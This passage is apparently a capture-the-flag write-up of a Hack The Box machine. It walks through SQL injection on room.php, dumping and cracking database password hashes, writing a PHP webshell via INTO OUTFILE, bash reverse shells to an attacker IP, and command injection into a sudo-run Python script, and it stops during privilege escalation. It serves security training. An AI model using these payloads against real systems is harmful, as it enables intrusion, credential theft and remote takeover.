This box is rated medium difficulty on HTB. It involves us finding a SQL injection vulnerability in a custom web application that allows us to dump a database and grab user credentials. We can then log into phpmyadmin and execute a SQL query to write a shell to the site's webroot, granting us a foothold on the system. Finally, once we're on the system we can inject commands into a Python script to pivot between users and exploit systemctl to create a malicious service.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing. 

```
$ sudo nmap -p22,80,64999 -sCV 10.129.229.137 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 20:11 -0400
Nmap scan report for 10.129.229.137
Host is up (0.055s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.93 seconds
```

There are just three ports open: 
- SSH on port 22
- An Apache web server on port 80
- Another Apache server on port 64999

That particular version of OpenSSH is only vulnerable to a few username enumeration exploits, so I'll focus on the websites. 

## Web Enumeration
I fire up Ffuf to search for subdirectories and Vhosts on both servers and also note that these two are running Apache v2.4.25 which came out over ten years ago, so it's a good bet that these may be vulnerable to several CVEs.

```
$ ffuf -u http://supersecurehotel.htb/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://supersecurehotel.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 60ms]
css                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 56ms]
js                      [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 51ms]
fonts                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 53ms]
phpmyadmin              [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 54ms]
sass                    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 53ms]
server-status           [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 52ms]

:: Progress: [220546/220546] :: Job [1/1] :: 724 req/sec :: Duration: [0:05:13] :: Errors: 0 ::
```

Checking out the landing page on port 80 shows a site dedicated to the Stark Hotel, targeted towards customers seeking luxury rooms. The header discloses a domain name of `superscurehotel.htb`, which I add to my `/etc/hosts` file.



The SignIn and Utilities links in the header are dead, but the Rooms and Dining & Bar tabs redirect us to pages allowing us to shop accordingly. The only functional things are links to book different rooms via the room.php page.



### DoS Protection
Upon navigating to these, we can see that the application fetches the room through the cod parameter. The rooms directly available to us aren't interesting, however we can fuzz for secret pages through the IDOR vulnerability in the URL.

```
$ seq 1 2000 > nums.txt 

$ ffuf -u 'http://10.129.229.137/room.php?cod=FUZZ' -w nums.txt --fs 5916

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.229.137/room.php?cod=FUZZ
 :: Wordlist         : FUZZ: /home/kali/vpns/nums.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 5916
________________________________________________

:: Progress: [2000/2000] :: Job [1/1] :: 722 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

Unfortunately, we get nothing in return and after navigating back to the site, I discover that something like fail2ban is in place which is blocking our fuzzing attempts.



It seems like any exploitation we do on this site will have to be manual or heavily slowed down unless we want to be booted for a while. Curious as to what's running on the higher server on port 64999, I only find the same message from our failed fuzzing attempts.



## SQL Injection
Waiting a few minutes and refreshing shows the exact same thing, so it looks like this content is the only thing on the main page. Some more enumeration shows that the only attack vectors are a phpmyadmin page and the _cod_ parameter on `room.php`. Testing the ladder for SQL injection payloads returns blank content where the room information should be, indicating that we can manipulate the query statement in use.



### UNION Statement Enumeration
Knowing this, I begin enumerating the amount of columns used in the statement via the UNION operator. Throughout this process, I refer to this [SQLi article](https://github.coventry.ac.uk/pages/CUEH/245CT/6_SQLi/DatabaseEnumeration/) and [PayloadsAllTheThings Cheetsheat](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) to help me enumerate the database.

```
/room.php?cod=6 UNION SELECT 1,2,3,4,5,6,7-- -
```



Specifying a page that shouldn't exist (e.g. `cod=20`) and supplying seven columns shows that numbers 5,2,3, and 4 are reflected to the page. We can use these to enumerate databases and potentially grab password hashes.

Next, I check to see which database we're in and what SQL version is in use.

```
/room.php?cod=20 UNION SELECT 1,database(),3,@@version,5,6,7-- -
```



Looks like we're in the Hotel database and the server is running MariaDB. Now I want to find all table names within this database using the `group_concat()` function that will allow us to display more information on one line.

```
/room.php?cod=20 UNION SELECT 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema = 'hotel'-- -
```



Next up is column names in the room table.

```
/room.php?cod=20 UNION SELECT 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name = 'room'-- -
```



There's nothing interesting in those so I try enumerating the mysql database next. By default, MariaDB has a user table within the mysql database which I dump immediately.

```
/room.php?cod=20 UNION SELECT 1,user,3,4,password,6,7 from mysql.user-- -
```



### Shell via Phpmyadmin
That returns a _MySQL 4.1+_ password hash for the DBadmin user. Sending that over to either [Hashes.com](https://hashes.com/en/decrypt/hash) or [Crackstation.net](https://crackstation.net/) will return the plaintext version which can be used to login to the phpmyadmin panel since it's the only place for credentials. Note that the login page is case-sensitive.



Logging in shows that we have full control over the SQL database and are allowed to execute queries through the SQL tab. This version is actually vulnerable to LFI allowing remote code execution through various means, however MySQL also provides features to write data to files on the web server via the `INTO OUTFILE` operator.



I use that technique to upload a simple PHP webshell that takes in a cmd parameter, allowing us to run commands as **www-data**.

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cbev.php" 
```



Testing this out with a simple `whoami` payload confirms it works and we can get a reverse shell with a bash one-liner.



```
/cbev.php?cmd=bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```

Making sure to percent-encode it as we're passing it into a URL forces a connection and we have a working shell on the system as the web server. I also upgrade and stabilize my shell via the typical Python method.



## Privilege Escalation
Now that we're on the box, we can focus on escalating privileges to root, starting by pivoting to other user accounts. I usually head straight for the web database or hardcoded credentials when I land on a system as the web server as our permissions are limited.

### Command Injection
I didn't discover any credentials in config files and we already enumerated the database, but there was an intriguing python script in an Admin-Utilities directory. Listing other users only returns one account for Pepper who happens to own this file.



Executing this script reveals that it takes in three parameters, allowing us to perform basic network actions. Listing Sudo permissions also reveals that we're able to run it as **Pepper** without a password.



We don't have write permissions over this file or directory, but we can test for command injection since the ping option could very well use Python's OS module.

_Note: For some reason I didn't realize that we could read this script, but we could've found this through code review as well._



And exactly as expected, we find that by utilizing command substitution, we're able to execute arbitrary commands as Pepper through the `-p` flag. Interestingly enough, we don't get any output from the command line, but after creating a new file to execute as my reverse shell in the webroot, I execute it through the script and get a connection.

```
--Making reverse shell file--
www-data@jarvis:/tmp$ echo '#!/bin/bash' >> shelly.sh
www-data@jarvis:/tmp$ echo 'bash -i >& /dev/tcp/10.10.14.243/445 0>&1' >> shelly.sh
www-data@jarvis:/tmp$ chmod +x /tmp/shelly.sh

--Executing revshell via script--
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/tmp/shelly.sh)
```

